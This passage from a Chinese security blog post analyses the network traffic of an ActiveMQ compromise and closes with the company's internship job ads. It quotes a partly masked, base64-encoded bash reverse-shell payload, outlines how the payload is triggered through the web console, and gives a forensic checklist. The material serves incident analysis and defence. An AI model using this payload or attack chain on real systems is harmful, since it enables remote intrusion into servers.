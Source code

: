 5、在 ActiveMQObjectMessage 这条数据中，发送的是 ActiveMQ 对象的一些信息，这个也是攻击 payload 的 push 点，我们在数据流中可以发现有

```
bash -c {echo,YmFzaCAtaSA+JiAxxxxxxxxxxxxxxxxxxxxxxx8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}
```

的字样，经验丰富的大家一眼也能认出来这是 linux 反弹 shell 的 payload。

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVdTmjjQz1QkuJq91GHX8ktTscvbcfE8HVvmmNaAkWccEL1EDAL4NngdDKcjpmticP5olrDvj6iag6A/640?wx_fmt=png)

6、因为当这个 payload 发送至 ActiveMQ 后，需要在控制台点击查看这条任务才可以触发 payload，因此接着我们看一下 web 层面的包，发现有对 / admin/browse.jsp??JMSDestination=event 进行访问，这个链接就是展示消息列表的那个地址。

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVdTmjjQz1QkuJq91GHX8kt4wRia3p5Nhl5VMkKTwZh1TUUkicSnP8RIqXiaZqGo9iaZ9QklH22LVX1rw/640?wx_fmt=png)

7、紧接着从访问的 uri 中消息的 ID 与上面所看到的 SessionInfo 返回的 ID 一致，因此可以判断攻击者 / 管理眼通过点击触发了刚刚那条 payload 所创建的消息。从流量中的响应码以及响应内容得知，在 web 端触发这条消息的动作成功执行。

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVdTmjjQz1QkuJq91GHX8kteTrQKAK6BR2mmMERtpV3zKG5dqJtbqaPjoaibJqlrgTAup29Td4bdWg/640?wx_fmt=png)

8、下面我们发现服务器与攻击 IP 的一个固定端口进行定向通信，分析数据包内容得知攻击者发送的 payload 已经成功被执行，并将 shell 反弹至攻击者的 1234 端口。

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVdTmjjQz1QkuJq91GHX8kthJ5jqWF8iayRFYPOrGckSClJjrdS54SyCp25LJtnVe2sGibswlAHTMwQ/640?wx_fmt=png)

**分析思路：**  
1、可从流量分析攻击者是否进行端口扫描，探测服务器的端口以确定运行的服务  
2、判断攻击者是否访问 web 的 8161 端口，并尝试用弱口令进行登录  
3、在数据流里分析攻击者是否向 61616 发送攻击 payload  
4、判断攻击者是否登录 web 服务进行点击触发  
5、判断请求 ID 是否与 SessionInfo 返回的消息 ID 一致  
6、根据状态码以及内容判断执行是否成功  
7、分析后续的流量判断主机是否已失陷

_**招聘启事**_

安恒雷神众测 SRC 运营（实习生）  
————————  
【职责描述】  
1\.  负责 SRC 的微博、微信公众号等线上新媒体的运营工作，保持用户活跃度，提高站点访问量；  
2\.  负责白帽子提交漏洞的漏洞审核、Rank 评级、漏洞修复处理等相关沟通工作，促进审核人员与白帽子之间友好协作沟通；  
3\.  参与策划、组织和落实针对白帽子的线下活动，如沙龙、发布会、技术交流论坛等；  
4\.  积极参与雷神众测的品牌推广工作，协助技术人员输出优质的技术文章；  
5\.  积极参与公司媒体、行业内相关媒体及其他市场资源的工作沟通工作。  
【任职要求】   
 1.  责任心强，性格活泼，具备良好的人际交往能力；  
 2.  对网络安全感兴趣，对行业有基本了解；  
 3.  良好的文案写作能力和活动组织协调能力。

简历投递至 

bountyteam@dbappsecurity.com.cn

设计师（实习生）

————————

【职位描述】  
负责设计公司日常宣传图片、软文等与设计相关工作，负责产品品牌设计。  
【职位要求】  
1、从事平面设计相关工作 1 年以上，熟悉印刷工艺；具有敏锐的观察力及审美能力，及优异的创意设计能力；有 VI 设计、广告设计、画册设计等专长；  
2、有良好的美术功底，审美能力和创意，色彩感强；精通 photoshop/illustrator/coreldrew / 等设计制作软件；  
3、有品牌传播、产品设计或新媒体视觉工作经历；  
【关于岗位的其他信息】  
企业名称：杭州安恒信息技术股份有限公司  
办公地点：杭州市滨江区安恒大厦 19 楼  
学历要求：本科及以上  
工作年限：1 年及以上，条件优秀者可放宽
